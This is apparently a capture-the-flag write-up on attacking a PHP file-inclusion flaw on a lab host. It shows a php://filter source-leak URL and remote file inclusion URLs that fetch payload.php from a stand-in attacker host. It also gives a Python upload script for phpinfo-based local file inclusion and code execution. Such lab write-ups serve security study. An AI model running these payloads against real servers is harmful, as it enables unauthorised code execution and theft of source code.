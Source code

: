 # 12 - Tips and Tricks


# Php source code leak

Php source code can be leaked with this url **php://filter/convert.base64-encode/resource=index.php**.

In our case, the url would be 

```sql
http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=index.php
```

Here is the output to our request
```
PGh0bWw+Cjxib2R5Pgo8aDE+VGVtcG9yYXJ5IHdlYnNpdGUgdG8gdGVzdCBsb2NhbCAucGhwIHNjcmlwdHMuPC9oMT4KU2l0ZXMgdG8gYmUgdGVzdGVkOiBpbmkucGhwLCBpbmZvLnBocCwgbGlzdGZpbGVzLnBocCwgcGhwaW5mby5waHAKCjwvYm9keT4KPC9odG1sPgoKPGZvcm0gYWN0aW9uPSIvYnJvd3NlLnBocCIgbWV0aG9kPSJHRVQiPgoJU2NyaXB0bmFtZTogPGlucHV0IHR5cGU9InRleHQiIG5hbWU9ImZpbGUiPjxicj4KCTxpbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJTdWJtaXQiPgo8L2Zvcm0+Cg==
```

# Remote file inclusion

RFI is another cool way to leverage these kind of vulnerabilities. if a file can remotely be included in browser.php that is basically remote code execution.

```sql
http://10.10.10.84/browse.php?file=http://attacker-ip/payload.php
```

Unfortunately this is disabled on the host, however other protocols can also be used  in this scenerio, ftp for example. Unlucky for us ftp is also disabled.

```sql
http://10.10.10.84/browse.php?file=ftp://attacker-ip/payload.php
```


# Phpinfo File Upload
There is also a file upload on phpinfo, we can chain this vulnerability with local file inclusion for remote code execution

![](vx_images/3215476877027.png)


# File upload through a python script

```py
#!/usr/bin/env python3

import requests

url = "http://10.10.10.84/phpinfo.php"
files = {'file': ('payload', "<?php echo 'tips & tricks'; ?>")}
r = requests.post(url, files=files)
print(r.text)
```

# Payload in the output of our post request
since we know the address of the file we can include this file now in browser.php
```
<tr><td class="e">_FILES["file"]</td><td class="v"><pre>Array                          
(       
    [name] =&gt; payload
    [type] =&gt; 
    [tmp_name] =&gt; /tmp/phpinFZ1l
    [error] =&gt; 0
    [size] =&gt; 13                                                                                                                                                                                                                          
)   
```

This file will get deleted as soon as it's loaded  but of course there is a race condition here.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py




